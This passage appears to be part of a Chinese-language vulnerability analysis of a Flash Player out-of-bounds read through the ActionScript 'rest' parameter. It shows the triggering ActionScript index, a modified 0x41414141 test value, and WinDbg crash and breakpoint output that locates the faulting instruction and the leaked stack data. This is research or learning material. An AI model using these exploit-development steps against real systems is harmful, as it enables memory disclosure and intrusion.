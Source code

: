 所以现在关键是要确定 rest 参数越界读取是发生在哪里，读取的数值又是什么。

 

可以修改函数一开始越界读取的索引值，原本是

```
var _loc2_:Number = new Number(parseFloat(String(rest[0x4000000E])));

```

按照书中所说修改成`0x41414141`，重新进行测试，windbg 断在了这里：

```
(cb8.7dc): Access violation - code c0000005 (!!! second chance !!!)
eax=41414141 ebx=0594a040 ecx=0256d07c edx=0256d07c esi=0581a0d0 edi=0581a0d0
eip=68f724b5 esp=0256cef4 ebp=0256d020 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00050202
*** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\Windows\system32\Macromed\Flash\Flash10s.ocx -
Flash10s!DllUnregisterServer+0x274e3d:
68f724b5 8b0481          mov     eax,dword ptr [ecx+eax*4] ds:0023:075bd580=????????

```

注意到 eax 寄存器的值就是`0x41414141`，程序尝试从`ecx+eax*4`的位置读取数值，这里很好理解，ecx 保存的是`rest`参数基地址，eax 是偏移，最后计算出具体位置。

5. 漏洞利用过程调试
===========

所以现在可以确定漏洞位置位于`Flash10s!DllUnregisterServer+0x274e3d`，接下来还是用之前正确的 main.swf，用 windbg 附加到 IE 上，然后在漏洞位置设置断点，再打开目标网址，windbg 断在断点处：

```
0:011> bu Flash10s!DllUnregisterServer+0x274e3d
0:011> g
Breakpoint 0 hit
eax=4000000e ebx=0598d040 ecx=0276cfec edx=0276cfec esi=058fa0d0 edi=058fa0d0
eip=674224b5 esp=0276ce74 ebp=0276cf90 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00040202
Flash10s!DllUnregisterServer+0x274e3d:
674224b5 8b0481          mov     eax,dword ptr [ecx+eax*4] ds:0023:0276d024=0276d078

```

可以看到在偏移值为`0x4000000E`的情况下，读取到的数据是`0x0276d078`，但是这个值有什么用呢？

 

如果多次测试，我这里贴出多次测试得到的结果：

```
Breakpoint 0 hit
eax=4000000e ebx=0602d040 ecx=0235cd0c edx=0235cd0c esi=05f990d0 edi=05f990d0
eip=677524b5 esp=0235cb94 ebp=0235ccb0 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00040202
Flash10s!DllUnregisterServer+0x274e3d:
677524b5 8b0481          mov     eax,dword ptr [ecx+eax*4] ds:0023:0235cd44=0235cd98
 
0:005> dd 0235cd98 l4
0235cd98  0235cdd4 67766e0e 0602b160 00000001
 
0:005> lm m Flash10s
start    end        module name
67360000 6798e000   Flash10s   (export symbols)       C:\Windows\system32\Macromed\Flash\Flash10s.ocx
 
-------------------------------------
Breakpoint 0 hit
eax=4000000e ebx=05fec040 ecx=0249cddc edx=0249cddc esi=05f5a0d0 edi=05f5a0d0
eip=67a524b5 esp=0249cc64 ebp=0249cd80 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00040202
```